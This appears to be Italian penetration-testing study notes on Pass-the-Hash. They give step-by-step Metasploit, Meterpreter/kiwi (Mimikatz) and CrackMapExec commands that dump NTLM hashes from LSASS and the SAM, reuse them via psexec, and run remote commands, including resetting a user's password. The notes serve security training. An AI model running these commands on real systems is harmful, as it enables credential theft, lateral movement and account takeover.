 # Pass-the-Hash Attacks

Il Pass-the-Hash (PtH) è una tecnica che consente di autenticarsi su un sistema remoto senza conoscere la password in chiaro, utilizzando direttamente l’hash NTLM dell’utente. È un metodo estremamente potente nel contesto del penetration testing perché **bypassa la necessità di conoscere la password vera e propria**, e permette comunque di accedere a servizi remoti che accettano l’autenticazione NTLM (come SMB o WinRM).

La capacità di catturare un hash NTLM è quindi fondamentale: esso rappresenta la “firma” digitale della password, e può essere utilizzato per ottenere l’accesso a risorse di rete, spostarsi lateralmente all'interno dell'infrastruttura e perfino compromettere interi domini Active Directory. A differenza delle password in chiaro, **gli hash NTLM spesso non vengono ruotati regolarmente** e, una volta ottenuti, **rimangono validi per lunghi periodi**, specialmente se associati ad account amministrativi.

## Sfruttamento con Metasploit

Un exploit utile per avviare un attacco iniziale è:

`use exploit/windows/http/badblue_passthru`

Dopo l’esecuzione e l’apertura di una sessione Meterpreter, si cerca il processo `lsass.exe` (Local Security Authority Subsystem Service), responsabile della gestione delle autenticazioni sul sistema. È proprio all'interno della memoria di questo processo che vengono archiviati gli hash NTLM e le credenziali in chiaro.

Puoi identificare il processo LSASS con:

`ps | grep lsass`

Una volta ottenuto il PID, si migra il payload di Meterpreter dentro LSASS:

`migrate <PID>`

Verifica che l’utente corrente abbia privilegi SYSTEM con:

`getuid`

Il risultato atteso dovrebbe essere:

`Server username: NT AUTHORITY\SYSTEM`

## Estrazione credenziali con Kiwi/Mimikatz

Carica il modulo `kiwi` nella sessione Meterpreter attiva (ora migrata in LSASS):

`load kiwi`

Il modulo `kiwi` integra tutte le funzionalità di **Mimikatz**, un tool potentissimo che consente di:

- Estrare credenziali in chiaro dalla memoria
- Dumpare hash NTLM e LM
- Fare attacchi pass-the-hash
- Interagire con i token di logon e impersonare utenti
- Rubare ticket Kerberos (Kerberoasting)

Per dumpare gli account locali dalla SAM (Security Account Manager):

`lsa_dump_sam`

La SAM è un database locale di Windows che contiene nomi utente, SID e hash delle password. Si trova nel filesystem in:

`C:\Windows\System32\config\SAM`

ed è accessibile **solo da un processo con privilegi SYSTEM o Kernel**.

Per ottenere direttamente LM e NTLM hash degli utenti locali:

`hashdump`

L’output ti mostra SID, LM Hash e NTLM Hash. L’hash NTLM è quello da usare per gli attacchi Pass-the-Hash. Si trova **prima del secondo “:”** e rappresenta l’identificativo univoco della password (in forma cifrata).

## Riutilizzo dell’hash – PsExec con Metasploit

Metti la sessione Meterpreter in background con `background` o `CTRL+Z`.

Poi usa:

`use exploit/windows/smb/psexec`

PsExec è un metodo legittimo utilizzato dagli amministratori Windows per eseguire programmi su macchine remote via SMB. Il modulo Metasploit ne replica il comportamento per ottenere una nuova shell con privilegi elevati.

Configura:

`set RHOST <IP_target>` <br>
`set SMBUser <utente_della_SAM>` <br>
`set SMBPass <password_in_chiaro>` # oppure l’hash NTLM <br>   
`set LPORT <porta_alternativa>` # diversa dalla sessione attuale <br>      
`set target Native\ upload` <br>

È importante usare una `LPORT` diversa da quella precedente per permettere a Metasploit di aprire una seconda sessione parallela.

Se stai usando l’hash NTLM, puoi specificarlo direttamente in `SMBPass`. L’intero hash può includere LM:NTLM, ma è sufficiente il solo hash NTLM.

## Alternativa con CrackMapExec

Un metodo più veloce e silenzioso è usare `crackmapexec`:

`crackmapexec smb <IP> -u <username> -p "<password>"` 

Oppure, se usi l’hash NTLM:

`crackmapexec smb <IP> -u <username> -H <NTLM_hash>`

Il comando tenterà l’autenticazione SMB. Se l’hash funziona, verrà mostrato l’indicatore:

`[Pwn3d!]`

Per eseguire comandi remoti (es. `whoami`, `ipconfig`, ecc.):

`crackmapexec smb <IP> -u <username> -H <hash> -x "whoami"`

Puoi anche cambiare la password di un utente con:

`crackmapexec smb <IP> -u <username> -H <hash> -x "net user <user> <newPassword>"`

Oppure ottenere la lista utenti della macchina:

`crackmapexec smb <IP> -u <username> -H <hash> -x "net user"`

Questi comandi ti consentono di ottenere pieno controllo operativo sul sistema target usando esclusivamente l’hash NTLM.
